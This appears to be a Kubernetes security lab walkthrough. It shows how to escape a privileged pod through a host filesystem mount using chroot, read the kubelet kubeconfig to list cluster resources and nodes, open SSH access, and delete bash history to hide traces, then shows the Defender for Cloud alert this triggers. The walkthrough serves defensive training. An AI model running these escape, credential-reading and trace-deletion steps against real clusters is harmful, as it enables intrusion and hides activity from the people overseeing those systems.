 The goal of this scenario is to escape out of the running docker container on the host system using the available misconfigurations. 

The secondary goal is to use the host system-level access to gain other resources access and if possible even go beyond this container, node, and cluster-level access

After performing the analysis, you can identify that this container has full privileges of the host system and allows privilege escalation. As well as /host-system is mounted

### Pod to use in this lab
system-monitor
### Misconfiguration: 
Sensitive Mount, the full host system / volume is mounted in the pod, in /host-system



```
capsh --print
```

```
mount
```

Now you can explore the mounted file system by navigating to the /host-system path

```
ls /host-system/
```

Escape to the node, gainining access to the host system privileges using chroot. We also launch bash from this command

```
chroot /host-system bash
```

The Kubernetes node configuration can be found at the default path, which is used by the node level kubelet to talk to the Kubernetes API Server. If you can use this configuration, you gain the same privileges as the Kubernetes node.

```
cat /var/lib/kubelet/kubeconfig
```

Using the kubelet configuration to list the Kubernetes cluster-wide resources

```
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get all -n kube-system
```

You are able to obtain the available nodes in the Kubernetes cluster by running the following command:

```
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get nodes
```

We could also start SSH server to allow remote access

And finally, remove your traces by deleting bash history

```
rm -rf ~/.bash_history
```


Very soon you will see an alert showing up on the Defender for Cloud console similar to this


![container-escape-alert](/images/container-escape-alert.PNG)

